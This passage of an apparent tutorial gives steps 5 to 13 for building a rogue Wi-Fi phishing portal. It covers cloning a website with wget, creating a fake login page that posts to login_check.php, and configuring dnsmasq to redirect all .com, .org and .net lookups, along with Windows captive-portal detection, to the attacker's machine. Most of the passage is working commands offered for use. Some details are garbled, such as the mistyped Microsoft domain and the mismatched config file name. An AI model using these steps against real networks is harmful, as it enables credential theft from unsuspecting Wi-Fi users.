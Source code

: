**5. Download the Example Page**

Use `wget` to download the webpage. Here, `-l2` means to go 2 levels deep:

```
wget -r -l2 https://www.website.com
```

**6. Prepare the Web Directory**

Create a directory for the phishing webpage:

```
sudo mkdir /var/www/html/portal && sudo mousepad /var/www/html/portal/index.php
```

**7. Replicate the Website's Style**

Replicate the styling of the example website page and copy the assets:

```
sudo cp -r ./www.website.com/assets /var/www/html/portal
```

**8. Set Up the Login Page**

Configure the login page to redirect to `login_check.php`:

```
sudo mousepad /var/www/html/portal/login_check.php
```

**9. Assign an IP address and activate the interface:**

```
sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
```

**10. Ensure dnsmasq is installed:**

```
sudo apt install dnsmasq
```

**11. Create the DHCP config file at `/home/kali/dnsmasq.conf` and add spoofing entries for top-level domains:**

```
address=/com/192.168.0.1
address=/org/192.168.0.1
address=/net/192.168.0.1
```

**12. For Windows 7 & 10 captive portal detection, add:**

```
address=/dns.msftncsicom/131.107.255.255
```

**13. Start dnsmasq with the config file:**

```
sudo dnsmasq –conf-file=dnsmasq.com
```
